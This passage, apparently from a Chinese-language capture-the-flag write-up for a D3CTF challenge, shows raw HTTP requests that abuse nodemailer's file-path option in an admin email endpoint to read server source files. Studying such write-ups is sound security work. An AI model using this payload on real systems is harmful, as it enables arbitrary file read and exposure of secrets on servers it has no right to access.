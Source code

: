 然后sendmail有一个任意文件读取的洞，文章在[这里](https://nodemailer.com/message/)

```
POST /admin/email HTTP/1.1
Host: 139f61ba6b.8bit-pub.d3ctf.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 89
Origin: http://139f61ba6b.8bit-pub.d3ctf.io
Connection: close
Referer: http://139f61ba6b.8bit-pub.d3ctf.io/admin
Cookie: SERVERID=97e74b5b89c308a1c4d2808bc54f67bb|1615094461|1615094461; session=s%3A3vtnIRCWk2nlxPgRfzSYOh3-4TWcWdk4.7cll3V0m0hNvbBtleNFbN7Q9C7m%2BrMQPGBKi%2FteBURw

{"to":"1142149972@qq.com","subject":"hello","text":{"path":"/var/www/web/utils/mail.js"}} 
```

![在这里插入图片描述](img/c7b8027d0589e1cdc2a30083f46b1169.png)

读一下github上的那个路径

```
{"to":"1142149972@qq.com","subject":"hello","text":{"path":"/var/www/web/node_modules/nodemailer/lib/sendmail-transport/index.js"}} 
```
